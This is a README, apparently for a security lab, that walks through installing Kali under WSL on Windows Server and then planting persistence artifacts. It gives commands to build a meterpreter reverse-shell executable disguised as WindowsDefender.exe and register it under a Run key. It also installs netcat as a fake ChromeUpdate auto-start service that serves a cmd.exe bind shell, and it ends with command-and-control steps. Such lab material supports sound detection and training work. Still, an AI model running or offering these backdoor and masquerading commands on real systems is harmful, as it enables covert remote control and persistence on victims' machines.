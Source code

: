# Installation

- [Installation](#installation)
  - [Setup](#setup)
  - [Install Kali Container](#install-kali-container)
  - [Artifact 1: Reverse Shell in Registry](#artifact-1-reverse-shell-in-registry)
    - [Kali Linux](#kali-linux)
    - [Windows](#windows)
  - [Artifact 2: Bind Shell service](#artifact-2-bind-shell-service)
    - [Kali Linux](#kali-linux-1)
    - [Windows](#windows-1)
  - [C2](#c2)

---

## Setup

The VM is using the **Windows Server 2019 with Container**.

<br/>

---

## Install Kali Container

First download **Kali Linux** and **Ubuntu 20.04** from the following site:

- https://docs.microsoft.com/en-us/windows/wsl/install-manual

<br/>

Run `powershell.exe` as admin and execute the following command:

```
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
```

<br/>

Extract `<distro>.appx` using Powershell:

```
Rename-Item .\kali.appx .\kali.zip
Expand-Archive .\kali.zip .\kali
cd .\kali
Rename-Item .\Distro.....-amd64.appx .\kali.zip
Expand-archive .\kali.zip .\kali
cd .\kali
```

<br/>

Then run kali:

```
.\kali.exe
```

<br/>

Get the keyring deb link from https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb.

```
wget https://http.kali.org/kali/pool/main/k/kali-archive-keyring/kali-archive-keyring_2020.2_all.deb
sudo apt install ./kali-archive-keyring_2020.2_all.deb
```

<br/>

Update packages:

```
apt update -y && apt upgrade -y && apt dist-upgrade -y
apt install kali-linux-core -y
```

<br/>

---

## Artifact 1: Reverse Shell in Registry

### Kali Linux

Prepare a reverse shell using `msfvenom` on Kali Linux:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.31.15.180 LPORT=4444 -f exe > WindowsDefender.exe
```

<br/>

Shift this on the Windows host `C:\Windows\System32\WindowsDefender.exe`

<br/>

### Windows

Open `cmd.exe` and run:

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsDefender /t REG_SZ /d "C:\Program Files\Defender\WindowsDefender.exe"
```

<br/>

---

## Artifact 2: Bind Shell service

### Kali Linux

Copy the `nc.exe` in `/usr/share/windows-binaries/nc.exe` to the Windows host `C:\ProgramData\Chrome\ChromeUpdate.exe`.

<br/>

### Windows

Create a service and start the service:

```
sc create ChromeUpdateService binpath= "cmd.exe /k C:\ProgramData\Chrome\ChromeUpdate.exe -L -p 2222 -e cmd.exe" start= auto
```

<br/>

---

## C2

ssh -i lab.pem kali@13.251.130.48
sudo su
cd ~/payload



Kali:

```
sessions -c "msg administrator hello"
```